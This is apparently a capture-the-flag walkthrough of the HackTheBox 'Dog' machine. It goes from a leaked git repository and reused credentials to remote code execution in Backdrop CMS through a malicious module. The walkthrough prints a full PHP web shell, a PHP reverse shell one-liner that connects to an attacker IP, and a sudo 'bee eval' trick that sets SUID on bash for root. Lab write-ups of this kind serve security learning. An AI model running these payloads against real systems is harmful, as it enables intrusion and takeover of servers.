### Enumeration
Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```

once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```



Well, taking a look at the port 80 scan, it seems like there's a git repository leaked in the web server, that means we can recreate the repository and find vulnerabilities in the code or look for hardcoded credentials in it.
You can use this to dump the git repository locally: https://github.com/arthaud/git-dumper

```sh
 pip install git-dumper
 git-dumper http://<ip>/.git ./dog
 cd dog
```
Start looking out files:
```sh
 cat settings.php
```



There's some credentials for mysql but we can't access the database from the outside, maybe they reused the password for another account?
Also it seems that the website uses Backdrop CMS version 1.27.1, this version is vulnerable to an RCE that can be exploited using a malicious module: https://www.exploit-db.com/exploits/52021

But we need to be authenticated to exploit this vulnerability

Let's keep searching for users (emails) with the domain of the app: dog.htb
```sh
grep -riE 'dog\.htb' .
```



Now we can try this email and the password found before to login to the admin panel in the website
### User Flag

Once logged in, we see can upload a malicious module with the PoC found in exploit-db, the route is /?q=admin/installer/manual but the website only allows .tar, .tar.gz, etc.. file extensions so we'll need to modify the script a little bit, here's the parts i changed:
 ```python
 def create_zip(info_path, php_path):
    tar_filename = "shell.tar"
    with tarfile.open(tar_filename, 'w') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename
```
i also changed the webshell payload here: 
```python
     shell_content = """
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            padding: 10px;
            border-radius: 5px;
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
    """

 ```
provide the url in the arguments of the script
```sh
 python exploit.py http://<ip>
```




Cool, now we can go to the route where the webshell **/modules/shell/shell.php** is uploaded and execute a reverse shell to obtain access to the server

```sh
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```



Before executing the command, start a listener with netcat to catch the incoming reverse shell

```sh
nc -lvnp 4242
```



And we're in!
now, we can look for users to escalate privileges in the /etc/passwd file
```sh
cat /etc/passwd
```
we can login to joberg and johncusack, wouldn't it be wild if they used the same password to login here too?



...are you serious? there's no way


well, now we are johncusack, here's the user flag:
```sh
cat ~/user.txt
```
### Root Flag

We can check what binaries can this user run with root privileges with
```sh
sudo -l
```



Investigating about this cli, we can see that includes commands to interact with backdrop sites
```sh
bee --help
```

One of those commands can allow us to execute php code, we can use sudo to give SUID permissions to the bash and that would give us a shell with root permissions

https://gtfobins.github.io/gtfobins/bash/



The eval command can use the shell_exec php function to execute shell commands, we need to pass the path to the backdrop installation in --root parameter  

```sh
sudo bee eval --root=/var/www/html/ --site=default 'shell_exec("chmod +s /bin/bash");'
```



verify that the bash has the SUID bit set and you can execute the bash
```sh
/bin/bash -p
```
Congratulations! You are now root, here's your flag:



```sh
cat /root/root.txt
```

### Conclusion 
This machine covers topics like Git repository leaks, Arbitrary php code execution and RCE in CMS

<mark>Hope you enjoy it and Happy Hacking!</mark>

